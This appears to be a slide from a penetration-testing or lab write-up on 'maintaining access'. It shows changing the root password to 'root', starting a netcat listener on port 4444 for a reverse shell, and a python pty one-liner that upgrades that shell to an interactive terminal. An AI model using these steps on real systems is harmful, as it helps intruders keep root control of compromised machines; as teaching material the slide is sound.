

MAINTAINING ACCESS
Proof of concept:
passwd
After that I changed the root password to be root
nc -lvnp 4444

python -c 'import pty; pty.spawn("/bin/bash")'; stty raw -echo; fg
Upgrades the reverse shell to a fully interactive TTY shell